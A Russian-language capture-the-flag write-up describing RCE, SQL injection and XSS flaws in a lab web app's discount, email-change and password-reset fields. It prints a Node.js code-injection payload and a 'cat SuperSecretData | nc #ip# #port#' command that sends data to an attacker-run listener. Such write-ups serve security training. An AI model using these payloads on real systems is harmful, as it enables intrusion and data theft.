 # RCE
## Описание уязвимости

https://www.wallarm.com/what/the-concept-of-rce-remote-code-execution-attack

https://cwe.mitre.org/data/definitions/94.html

## Exploit

Поле ввода скидки позволяет выполнять команды через внедрение следующего кода:
require('child_process').exec(COMMAND)

Поле ввода:
![img_4.png](img_4.png)

Пример перехваченого и измененного запроса:

![img.png](img.png)
Результаты выполненых команд можно передать на хост через nc. Включаем nc на хосте на прослушивание на порту 8080 и получаем вывод команды:

![img_1.png](img_1.png)

В качестве команды передаем cat SuperSecretData | nc #ip# #port#

Получаем флаг:

![img_2.png](img_2.png)

# SQLi
## Описание уязвимости

https://portswigger.net/web-security/sql-injection
https://cwe.mitre.org/data/definitions/89.html

## Exploit

Функционал изменения почты в личном кабинете пользователя не фильтрует пользовательский ввод почты и использует для этого sql запрос.
Поле ввода:
![img_3.png](img_3.png)

При попытке изменения sql запроса, получаем Validation error:

![img_5.png](img_5.png)

При добавлении условия where email='#email#' данной ошибки нет, но до данного условия необходимо догадаться, так скажем smart bruteforce.

![img_6.png](img_6.png)

Проверим восстановление пароля по новой почте. Отправляем запрос и видим письмо со ссылкой на почте.

![img_7.png](img_7.png)

Воспользуемся ссылкой, изменим пароль и зайдем в профиль с новыми данными. 

![img_8.png](img_8.png)

Получаем флаг в личном кабинете пользователя, данные которого мы изменили.

![img_9.png](img_9.png)

# XSS
## Описание уязвимости

https://portswigger.net/web-security/cross-site-scripting
https://cwe.mitre.org/data/definitions/79.html

## Exploit

В поле сброса пароля, от нас требуют ввести почту. При вводе видим, что вызывается alert, где в тексте выводится то, что мы ввели и какой-то фиксированный текст. 

![img_10.png](img_10.png)

Предположим, что alert выполняется через функцию eval. Поэтому попробуем ввести такой ввод, чтобы помимо обычного alerta, выполнился и наш alert.

![img_11.png](img_11.png)
![img_12.png](img_12.png)

У нас выполнился наш alert, и мы можем добавить еще один, чтобы вытащить флаг. Таким образом мы выполним нужный alert, который вытащит флаг.

![img_13.png](img_13.png)
